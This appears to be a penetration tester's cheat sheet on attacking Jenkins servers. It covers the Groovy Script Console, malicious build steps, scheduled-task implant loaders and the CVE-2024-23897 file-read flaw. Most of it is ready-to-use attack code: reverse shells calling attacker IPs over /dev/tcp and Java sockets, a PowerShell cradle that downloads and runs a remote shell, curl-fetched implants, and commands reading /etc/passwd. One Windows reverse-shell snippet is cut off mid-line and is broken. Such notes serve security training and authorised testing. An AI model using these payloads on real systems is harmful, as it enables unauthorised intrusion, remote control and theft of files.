

# Jenkins

Jenkins is a **Java-based open-source automation server**, designed to support continuous integration by automatically building and testing software whenever changes are made. By default, Jenkins includes a lightweight Java-based web server called **Winstone** on the `8080` port, but it can also be deployed as a **Web Application Archive (WAR)** file to run inside a Java servlet container like Apache Tomcat, Jetty, or GlassFish. It uses port `5000` to connect with slave nodes for distributed tasks. When Jenkins run as a Windows service, it typically uses Winstone and runs under as `SYSTEM`.&#x20;

For authentication, Jenkins supports multiple backends including its local user database, LDAP, Unix user accounts, or a servlet container. It can also be configured to allow unauthenticated access. In its default state, **Jenkins stores credentials in its internal database** and does not permit users to create their own accounts.

## RCE

### Script Console

Once we have gained access to a Jenkins application, a quick way of achieving command execution on the underlying server is via the [Script Console](https://www.jenkins.io/doc/book/managing/script-console/) (`/script`), which allows us to run arbitrary Groovy scripts within the Jenkins controller runtime and can be abused to run operating system commands on the underlying server. Groovy is an object-oriented Java-compatible language. Groovy source code gets compiled into Java Bytecode and can run on any platform that has JRE installed.



Run arbitrary system commands (similar to a webshell):

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```



Send a reverse shell:


```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```


If the above does not work:


```groovy
String host="192.168.45.170";
int port=80;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```




Metasploit's [jenkins\_script\_console](https://web.archive.org/web/20230326230234/https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console/) module:

```bash
> use exploit/multi/http/jenkins_script_console
> show targets
> set TARGET < target-id >
> show options
> exploit
```



Against a Windows host, we could attempt to add a user and connect to the host via RDP or WinRM or, to avoid making a change to the system, use a PowerShell download cradle with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). We could run commands on a Windows-based Jenkins install using this snippet:

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

We could also use [this](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy) Java reverse shell to gain command execution on a Windows host:


```groovy
String host="<attacker-IP>";
int port=<attacker-port>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.ge
```




### Build Step

If the compromised user is does not have eleveated privileges, but is able to configure projects, we can still get RCE by creating/modyfing a Build Step and passing an RCE command to be executed:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


```powershell
# Windows batch command payload
powershell.exe iex (iwr http://172.16.99.37/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.99.37 -Port 443
# Execute shell payload
/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.170/80 0>&1'
```


<figure><figcaption></figcaption></figure>

This can be also leveraged using scheduled tasks (each command on a different step):


```powershell
# Create scheduled task to download the binary
schtasks /create /tn "DownloadBinLoader" /tr "c:\windows\system32\cmd.exe /c start /b curl http://<http-server-IP>/BinLoader.exe -o c:\windows\temp\binloader.exe" /sc ONSTART

# Create scheduled task to execute the implant
schtasks /create /tn "RunBinLoader" /tr "c:\windows\system32\cmd.exe /c start /b c:\windows\temp\binloader.exe 172.16.100.37 80 dcorp-ci_tcp.bin" /sc ONSTART

# Run the first task
schtasks /run /tn "DownloadBinLoader"

# Run the second task
schtasks /run /tn "RunBinLoader
```


## LFI

Jenkins versions up to `2.441` and LTS up to `2.426.2`. are affected by a LFI vulnerablity ([CVE-2024-23897](https://nvd.nist.gov/vuln/detail/cve-2024-23897)) which allows **unauthenticated attackers to read arbitrary files** on the server’s filesystem via crafted CLI commands. The root cause lies in how Jenkins processes CLI arguments when those are passed through certain CLI modes—particularly the `args4j` parser used internally to handle user inputs. If an argument beginning with an `@` symbol is supplied, Jenkins interprets it as a file path and attempts to load additional parameters from that file. This behavior is inherited from the underlying Java CLI library but was not properly sanitized in Jenkins.

When accessed through the CLI over HTTP, this results in a scenario where an attacker, without needing to authenticate, can trick Jenkins into reading sensitive files—such as `/etc/passwd`, configuration files, or SSH keys—and echoing their contents back in the response. The CLI must be reachable over HTTP(S), which is usually the case in many exposed Jenkins instances. The risk is elevated if Jenkins runs with high privileges or has access to sensitive parts of the system.&#x20;

First, the `jenkins-cli.jar` needs to be downloaded from the server in order to match the exact CLI client version designed for that Jenkins instance.&#x20;


&#x20;`jenkins-cli.jar` is a **Java-based CLI tool** provided by Jenkins to interact with a Jenkins instance programmatically. It connects to the Jenkins server and allows users to execute administrative and operational tasks like triggering builds, managing jobs, viewing logs, and more — all from the terminal. It communicates over HTTP(S) or SSH, depending on configuration, and uses Jenkins's internal CLI infrastructure. \
\
In brief, `jenkins-cli.jar` **speaks the same CLI protocol** Jenkins understands.



```bash
# Download jenkins-cli.jar
$ wget http://localhost:8080/jnlpJars/jenkins-cli.jar
```


The below command runs the Jenkins CLI client:

* The `-s` flag specifies the target server’s address
* The `-http` option forces the CLI to communicate over HTTP, allowing unauthenticated access
* The command being executed is `help`, with `1` as its first argument, which Jenkins interprets as a request for help related to the command named `1`.&#x20;
* The string `@//etc/passwd` leverages the vulnerability by instructing Jenkins to read arguments from the `/etc/passwd` file.&#x20;

This causes Jenkins to process the contents of the file as if they were CLI arguments, resulting in partial disclosure of the file’s content due to how the CLI parses input line by line.

```bash
# Exploit the LFI vulnerability
$ java -jar jenkins-cli.jar -s http://localhost:8080 -http help 1 "@//etc/passwd"
```

Various working PoCs (e.g. [godylockz](https://github.com/godylockz/CVE-2024-23897)) are also available.


```bash
$ searchsploit Jenkins 2
Jenkins 2.441 - Local File Inclusion | java/webapps/51993.py

$ python3 51993.py -u http://127.0.0.1:8888 -p /etc/passwd
```

